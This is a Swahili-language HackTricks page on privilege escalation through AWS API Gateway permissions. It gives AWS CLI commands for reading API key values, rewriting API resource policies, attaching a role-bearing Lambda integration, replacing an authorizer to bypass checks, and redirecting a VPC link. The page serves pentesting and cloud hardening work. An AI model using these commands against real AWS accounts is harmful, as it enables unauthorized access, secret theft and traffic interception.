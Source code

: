 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Kwa ruhusa hii unaweza kuunda funguo za API za APIs zilizowekwa (kwa kila eneo).
```bash
aws --region <region> apigateway create-api-key
```
**Madhara Yanayoweza Kutokea:** Huwezi kufanya privesc kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:GET`

Kwa ruhusa hii unaweza kupata funguo za API zilizozalishwa za APIs zilizowekwa (kila eneo).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Madhara Yanayoweza Kutokea:** Huwezi kupandisha hadhi kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Kwa ruhusa hizi inawezekana kubadilisha sera ya rasilimali ya API ili kujipatia ufikiaji wa kuitumia na kutumia ufikiaji ambao API gateway inaweza kuwa nao (kama kuitisha lambda iliyo hatarini).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Wewe, kwa kawaida, huwezi kupata privesc moja kwa moja kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:PutIntegration`, `apigateway:CreateDeployment`, na `iam:PassRole` anaweza **kuongeza muunganiko mpya kwenye API Gateway REST API iliyopo kwa kutumia kazi ya Lambda ambayo ina jukumu la IAM lililounganishwa**. Mshambuliaji anaweza kisha **kuanzisha kazi ya Lambda kutekeleza msimbo wowote na kwa uwezekano kupata ufikiaji wa rasilimali zinazohusiana na jukumu la IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa rasilimali zinazohusiana na jukumu la IAM la kazi ya Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:UpdateAuthorizer` na `apigateway:CreateDeployment` anaweza **kubadilisha mthibitishaji wa API Gateway uliopo** ili kupita kwenye ukaguzi wa usalama au kutekeleza msimbo wa kiholela wakati maombi ya API yanapofanywa.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Kupita ukaguzi wa usalama, ufikiaji usioidhinishwa wa rasilimali za API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:UpdateVpcLink` anaweza **kubadilisha Kiungo cha VPC kilichopo ili kiashirie kwenye Balancer ya Mizigo ya Mtandao tofauti, ambayo inaweza kuelekeza trafiki ya API ya kibinafsi kwa rasilimali zisizoidhinishwa au zenye uharibifu**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa rasilimali za API za kibinafsi, kukamata au kuingilia kati trafiki ya API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
